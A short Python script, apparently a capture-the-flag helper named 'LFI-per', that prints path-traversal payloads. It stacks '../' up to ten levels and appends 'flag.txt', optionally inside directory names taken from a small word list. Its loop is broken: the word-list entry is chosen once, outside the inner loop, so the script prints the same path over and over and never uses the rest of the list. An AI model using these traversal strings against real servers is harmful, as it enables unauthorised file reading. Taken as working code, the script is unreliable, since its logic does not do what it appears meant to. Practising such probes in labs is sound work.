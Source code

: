 # LFI-per


#python

dot = ""
dic = ["home", "hola", "dsdas", "prova", "dsakdsads", "dsadadasdsa", "1", "8"]

num = 0
#per que faci fins al final de la llista
num1 = (len(dic)) - 1



for i in range(10):
    num = 0
    dots = ""
    dot = dot + "../"
    dic1 = dic[num]
    dots = dot + str(dic1) + "/flag.txt"
    flag = dot + "flag.txt"  
    print (flag)
    
    while num <=num1:
        
        print (dots)
        num = num + 1
